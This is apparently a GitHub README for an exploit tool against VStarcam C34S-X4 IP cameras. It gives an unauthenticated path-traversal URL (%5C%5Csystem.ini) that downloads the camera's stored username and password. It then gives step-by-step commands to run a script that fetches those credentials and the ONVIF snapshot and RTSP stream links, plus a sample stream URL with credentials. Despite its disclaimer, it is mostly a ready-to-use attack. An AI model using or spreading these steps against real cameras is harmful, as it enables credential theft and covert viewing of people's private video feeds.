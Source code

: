 ## Authentication Treversal
The Vulnerability of GoAhead Service on VStarcam C34S-X4 that allows you to download system.ini configuration file and get login and password.
--
## !WARNING!
The author is trying to draw the attention of the developers to the problem and I am not responsible for the harm caused to you or by you.
--


# IMPLEMENTATION

Еo perform the vulnerability, you must log in to the camera interface without authorization. Then, after the forward slash, you must add %5C%5Csystem.ini
and the file will start downloading. When you open the file, you will see your username and password written together. I have already written a small program
that interacts with the ONVIF protocol and receives images from the camera and a link to the RTSP stream.

# STEPS
1) To use it you have to install [python3](https://www.python.org)
[onvif_zeep](https://github.com/FalkTannhaeuser/python-onvif-zeep) and [requests](https://pypi.org/project/requests/)
```sh
git clone https://github.com/Retr0-code/auth-treversal
pip3 install -r requirements.txt
chmod +x GetInfo.py
python3 GetInfo.py --help
```
<br>
2) You can go to you browser and enter this link <b>http://ip:port/%5C%5Csystem.ini</b>
(You must change ip to address of camera and port to port that web-server run on).
<br>
![alt text]()
<br>
Or you can use ```sh python3 GetInfo.py --host <camera ip> --port <web-server port>``` and than read as text downloaded file.
<br>
![alt text]()
<br>
3) Now you can log in to web-panel.
<br>
![alt text]()
Or you can use ```sh python3 GetInfo.py --onvif 10080 --host 192.168.0.58 --port 8888``` and you get links to snapshots and RTSP stream link.
To get stream you have to specify login and password like this: <b>rtsp://username:password@ip:port/path/to/stream</b> In my case link looks like
this rtsp://admin:888888@192.168.0.58:554/udp/av0_1
<br>
![alt text]()

